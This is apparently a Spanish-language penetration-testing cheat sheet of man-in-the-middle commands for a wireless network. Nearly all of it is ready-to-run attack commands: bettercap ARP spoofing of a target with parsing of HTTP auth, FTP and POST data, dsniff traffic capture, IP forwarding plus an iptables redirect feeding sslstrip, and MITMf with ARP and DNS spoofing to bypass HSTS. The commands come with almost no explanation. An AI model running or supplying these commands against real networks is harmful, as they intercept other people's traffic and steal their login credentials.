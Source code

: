### Bettercap

Primero buscamos nuestros objetivos en la red wifi

```bash
bettercap -I wlan0 --no-spoofing --no-target-nbns

# ponemos el objetivo sino hace spoofing a toda la red

bettercap -I wlan0 -T target_ip

# si queremos especificar otro gateway

bettercap -I wlan0 -G 192.168.0.1 -T target_ip

# permite parsear y listar los paquetes

bettercap -I wlan0 -T target_ip -X -P "HTTPAUTH, URL, FTP, POST"

# FOR MIMT option
bettercap -I tap0 -X -G 10.10.10.15 -t 10.10.10.200
```

### dsniff

interceptamos data

```bash
dsniff -i wlan0
```

### ettercap y sslstrip

```bash

echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 8080

# Iniciamos sslstrip, para que escuche en el 8080
sslstrip -a -f -l 8080 -w file


### con este comando habilitamos sslstrip, si la victima intenta abrir un https lo veremos arriba
bettercap -G gateway -T target_ip --proxy-https
```

### MITM

herramienta moderna para bypass HSTS

```bash
python mitmf.py .i wlan0 --spoof --arp --dns --hsts --gateway gateway_ip --targets target_ip

```
